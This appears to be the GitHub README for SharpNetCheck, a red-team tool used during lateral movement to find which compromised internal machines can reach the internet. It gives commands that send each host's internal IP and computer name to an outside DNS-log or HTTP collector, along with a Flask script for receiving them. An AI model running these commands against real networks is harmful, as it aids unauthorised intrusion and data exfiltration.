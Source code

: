 # SharpNetCheck
在渗透过程中，对可以出网的机器是十分渴望的。在收集大量弱口令的情况下，一个一个去测试能不能出网太麻烦了。所以就有了这个工具，可配合如wmiexec、psexec等横向工具进行批量检测，该工具可以在dnslog中回显内网ip地址和计算机名，可实现内网中的快速定位可出网机器。

```
> SharpNetCheck.exe

Author: Uknow
Github: https://github.com/uknowsec/SharpNetCheck

Usage: SharpNetCheck -dns -host ceye.io
       SharpNetCheck -http ceye.io
       SharpNetCheck -all ceye.io
```

## ceye

`SharpNetCheck -all -host xxx.ceye.io`

#### HTTP Requests

```
Method: Post
Data: host=DESKTOP-KUMLA9N&ip1=172.16.242.133
```

#### DNS Query Name
```
172.16.242.133-DESKTOP-KUMLA9N.xxx.ceye.io
```


## 搭建http 回显 服务器 

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def welcome():
    return 'Welcome'

@app.route('/register', methods=['POST'])
def register():
    print(request.headers)
    print(request.stream.read())
    return 'welcome'


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=38989, debug=True)
```

然后运行 SharpNetCheck.exe

`SharpNetCheck.exe -http -host x.x.x.x:38989/register`

服务器就可以接收到post的内容

![](./flask.png)

修改 `SharpNetCheck/Program.cs` 第97行代码

`url = "http://" + url + "/";`

为

`url = "http://" + url;`

